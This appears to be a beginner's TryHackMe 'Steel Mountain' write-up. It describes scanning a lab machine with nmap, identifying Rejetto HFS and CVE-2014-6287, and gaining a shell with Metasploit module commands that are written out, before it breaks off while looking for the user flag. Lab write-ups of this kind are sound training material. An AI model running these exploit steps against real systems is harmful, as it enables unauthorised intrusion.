 # THM-SteelMountain
I lerarn how haced the Windows machine. I use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and I learn a new technique to get Administrator access.
< THM Steel Mountain room

#Task1 Open website in adress 10.10.135.167 in Virtaul Machine. I open page source preview to see name employee of the month: Bill Harper

![This is an image]()


#Task2 I scan maschin the command: nmap -sV -sC 10.10.135.167 and I find running web serwer on 8080 port. And another serwer Rejetto HTTP File Server

![This is an image]()


#Task3 I find in exploit-database exploit "Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)" with number CVE-2014-6287.

![This is an image]()


#Task4 I Use Metasploit to get an initial shell.
Command: 
msfconsole
search CVE-2014-6287
use 0
options
set RHOST 10.10.135.167
set RPORT 8080
exploit

![This is an image]()

#Task5 now I have access to system bill and I must find Desktop and user flag. I use many tims command cd .. that  I been in directory C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs and I want go to Desktop. 

![This is an image]()
![This is an image]()
![This is an image]()
![This is an image]()
![This is an image]()
